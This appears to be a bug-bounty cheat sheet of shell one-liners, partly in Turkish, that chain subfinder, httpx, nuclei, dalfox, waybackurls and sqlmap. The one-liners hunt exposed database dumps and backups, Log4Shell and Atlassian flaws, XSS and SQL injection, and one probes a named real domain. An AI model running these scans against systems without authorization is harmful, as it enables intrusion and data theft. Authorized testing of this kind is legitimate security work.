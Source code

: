 
```bash
subfinder -d www.cm.gomedigap.com -silent | httpx -silent -path "/wp-content/mysql.sql" -mc 200 -t 250 -ports 80,443,8080,8443
```



## log4j and attlassian scanner
```bash
nuclei -t cves/2021/CVE-2021-44228.yaml -l domain.txt  -o CVE-2021-44228-scan.txt  -me log4j-rce
```

```bash
nuclei -l domains.txt  -tags atlassian -severity medium,high,critical -vv -o atlassian-scan.txt -me atlassian
```

## nuclei tags scan
```bash
nuclei -l domains.txt  -tags cve,panel,edb,lfi,xss,rce   -severity medium,high,critical -vv -o tags-scan.txt -me report
```

## xss automation

```bash
cat domain.com-active.txt |  waybackurls | uro | gf xss |  dalfox pipe   --only-poc='r,v'    --ignore-return 302,404,403 --custom-payload ~/Desktop/WEB/XSS/xss-payload-top.txt

cat {hedef}-xss-urls.txt  |  dalfox pipe   --only-poc="r,v"    --ignore-return 302,404,403  -o  {hedef}-xss-dalfox-scan.txt --ignore-param api_token --ignore-param csrf_token
```
```bash
echo "\n\033[34m\033[1m DALDOX-XSS SCAN STARTED" "\033[0m"   && echo "\033[37m"  |  wc -l {hedef}-xss-urls.txt  &&  cat {hedef}-xss-urls.txt  |  dalfox pipe   --only-poc="v"    --ignore-return 302,404,403  -o  {hedef}-xss-dalfox-poc.txt --ignore-param api_token --ignore-param csrf_token --custom-payload ~/Desktop/WEB/XSS/xss-payload-top.txt   &&   echo "\033[37m\033[1m OK"   "\033[1m\033[32m SAVED {hedef}-xss-dalfox-poc.txt" && echo "\n\033[34m\033[1m NOTİFY DALFOX SEND" "\033[0m"  && echo "\033[37m"  |  wc -l {hedef}-xss-dalfox-poc.txt    && notify -data {hedef}-xss-dalfox-poc.txt  -p discord -d 2 -silent   &&   echo "\033[37m\033[1m OK"   "\033[1m\033[32m {hedef}-xss-dalfox-poc.txt SUCCESSFULLY SENT TO DISCORD"
```


## backup  .zip dosya bulma
```bash
cat domain.list | waybackurls | grep .zip
```


##	SQL injection Oneliner

```bash
subfinder -dL domains.txt   | dnsx | waybackurls | uro  | grep "\?" | head -20 | httpx -silent > urls;sqlmap -m urls --batch --random-agent --risk 3 --level 5 --hex   | tee sqlmap.txt
```
